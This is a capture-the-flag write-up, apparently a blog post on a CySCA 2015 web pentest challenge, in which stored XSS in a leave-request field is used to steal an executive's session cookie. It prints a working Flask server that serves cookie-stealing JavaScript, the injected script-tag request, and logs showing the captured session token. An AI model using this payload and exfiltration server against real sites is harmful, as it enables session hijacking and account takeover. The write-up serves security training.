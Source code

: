 ```yaml
---
title: CySCA 2015 - Web Application Pentest 4 - Business Excellence
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```


We need to gain access to the CVO (Angelina's) account. In order to do this, we
most likely will need to steal a cookie. We take a look in the leave details 
section and put in a leave request to see if it's XSS protected. Additionally,
we notice that the session cookie on this website  *is not* `HTTPOnly`. Time
to steal.

The browser will prevent javascript accessing `HTTPOnly` cookies, hence, if it 
was HTTP Only, we would be looking in the wrong place. 

We do the naive thing and just put `<h1>Hello</h1>` in. However, the ticker spits 
out `WARNING: XSS detected! You have been reported.`. Additionally, it appears 
the XSS is stripped client side too. 

Lets take this to a [PostMan](https://chrome.google.com/webstore/detail/postman/fhbjgbiflinjbdggehcddcbncdddomop?hl=en) session rather than mucking around with 
request stripping. 

We also fire up a little flask web-app to steal the user's session. 

{% highlight python %}
from flask import Flask
import sys
app = Flask(__name__)

if len(sys.argv) < 3:
    print("Usage: {} <Listen IP Address> <Listen Port>".format(sys.argv[0]))
    print("Listen IP Must be a reachable machine IP from the box")
    exit(1)

host = sys.argv[1]; port = int(sys.argv[2])

@app.route('/')
def hello_world():
    return 'Hello World! <script src="http://{}:{}/r.js"></script>'.format(host,port)

@app.route('/r.js')
def steal():
    return """
    var url = 'http://{}:{}/url?'+ document.cookie;
    document.write('<img src="' + url +'" />');
    """.format(host, port)

if __name__ == '__main__':
    app.run(debug=True, port=port, host='0.0.0.0')

{% endhighlight %}

We send off the following request:

{% highlight text %}
POST /service/leave HTTP/1.1
Host: www.ecwi.cysca
Cache-Control: no-cache

start: 11/19/2015
end: 12/19/2015
reason: <Script src="http://x.x.x.x/r.js"></Script>
{% endhighlight %}

(Replacing x.x.x.x my your machine's accessible IP address)

We notice that the ticker says "WARNING: XSS detected! You have been reported." 
however, we still wait. Within 2 minutes, our javascript gets loaded, and we've
stolen the user's session cookie:

{% highlight text %}
192.168.8.6 - - [19/Nov/2015 17:58:01] "GET /r.js HTTP/1.1" 200 -
192.168.8.6 - - [19/Nov/2015 17:58:01] "GET /url?session=eyJfZnJlc2giOnRydWUsIl9pZCI6eyIgYiI6IlltSmtNemxpT1RCbE56TTJNakkwTkRVMU0yTXpPVFZpTkRoa01tWm1Zek09In0sInVzZXJfaWQiOiI1In0.CS8EeQ.fNfERZulfSlUGpMSNEnsN2TBnzQ HTTP/1.1" 404 -
{% endhighlight %}

We replace our session cookie with this one, and now we've logged in, reavealing
the flag in the ticker:

> You're an Executive! - FLAG{3a000000000000000000000000000000}


